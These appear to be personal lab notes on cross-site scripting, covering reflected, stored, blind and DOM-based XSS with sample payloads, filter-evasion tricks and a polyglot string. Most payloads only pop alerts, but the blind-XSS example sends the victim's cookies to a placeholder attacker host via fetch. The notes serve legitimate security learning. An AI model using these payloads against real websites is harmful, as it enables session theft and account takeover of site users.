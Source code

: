 # Cross-site Scripting

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

http://www.xss-payloads.com/










## Reflected XSS
User-supplied data in an HTTP request is included in the webpage source without any validation.

The JavaScript is executed because it is in the HTTP response

Only affects the person making the web request.


`<script>alert(window.location.hostname)</script>`
`<script>alert(“Hello World”)</script>`
`</textarea><script>alert('THM');</script>`

`<script>alert(document.cookies)</script>`
`<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>`

/images/cat.jpg" onload="alert('THM');






### Avoid Filters
`<sscriptcript>alert('THM');</sscriptcript>`









## Stored XSS
Is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

Example: post comments stored in a database.

### Blind XSS
Is similar to a stored XSS (which we covered in task 4) in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.


Tool: <https://github.com/mandatoryprogrammer/xsshunter-express>


Examples:
`</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`











## DOM-based XSS
The "sinks" manipulate the DOM, and then the DOM causes the JavaScript to execute.

- document.write
`"><svg onload=alert(1)>`
`fooBar" onload="alert(1)`

- innerHTML sink using source location.search
`<img src=1 onerror=alert(1)>`
`<img src='0' onerror=alert(1)>`


### DOM XSS in jQuery anchor href attribute sink using `location.search`
```
<a id="backLink" href="/">Back</a>
<script>
	$(function() {
		$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
	});
</script>
```

original: https://example.path/feedback?returnPath=/
modified: https://example.path/feedback?returnPath=javascript:alert(document.cookie)



### escape javaScript
`';alert('THM');//`






















## Polyglots
An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.


jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e